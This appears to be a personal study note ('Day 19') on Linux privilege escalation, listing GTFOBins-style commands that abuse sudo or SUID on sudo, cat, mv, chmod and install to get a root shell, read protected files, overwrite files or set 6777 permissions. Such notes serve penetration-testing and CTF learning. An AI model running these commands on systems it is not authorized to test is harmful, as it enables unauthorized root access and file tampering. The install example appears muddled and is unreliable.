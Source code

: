 
# ♦ Day 19
</br>
</br>

## ◙ ***Privillage Escalation with comman commands***
 </br>
 
# ♦ `Sudo` : 
   ⇨  If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.
</br>
#### Command:

      sudo sudo /bin/sh

   </br>
   </br>

### ♦ `cat` :  

   ⇨  Description: The `cat` command reads data from files and can be used to do privileged reads or disclose files outside a restricted file system. If it has the SUID bit set, it can escalate privileges.
</br>
#### Command: 

   • File Read :

    LFILE=file_to_read
    cat "$LFILE"

   • SUID :

    sudo install -m =xs $(which cat) .

    LFILE=file_to_read
    ./cat "$LFILE"

   • Sudo :

    LFILE=file_to_read
    sudo cat "$LFILE"


# ♦ `mv` : 
   ⇨  The `mv` command can move files from restricted file systems or with elevated privileges. If it has the SUID bit set, it can escalate privileges.


#### Command:

   • SUID :
   
   ```sh
  sudo install -m =xs $(which mv) .

  LFILE=file_to_write
  TF=$(mktemp)
  echo "DATA" > $TF
  ./mv $TF $LFILE
  ```
• Sudo:
   ```sh
  LFILE=file_to_write
  TF=$(mktemp)
  echo "DATA" > $TF
  sudo mv $TF $LFILE
```

### ♦ `chmod` :
   ⇨ The `chmod` command can change file permissions with elevated privileges. If it has the SUID bit set, it can escalate privileges.

**Commands:**
• SUID:
  ```sh
  sudo install -m =xs $(which chmod) .

  LFILE=file_to_change
  ./chmod 6777 $LFILE
  ```
• Sudo:
  ```sh
  LFILE=file_to_change
  sudo chmod 6777 $LFILE
  ```

### ♦ `install` :
   ⇨ The `install` command can change permissions and execute a copy of the file with elevated privileges. If it has the SUID bit set, it can escalate privileges.

**Commands:**
• SUID:
  ```sh
  sudo install -m =xs $(which install) .

  LFILE=file_to_change
  TF=$(mktemp)
  ./install -m 6777 $LFILE $TF
  ```
• Sudo:
  ```sh
  LFILE=file_to_change
  TF=$(mktemp)
  sudo install -m 6777 $LFILE $TF
  ```

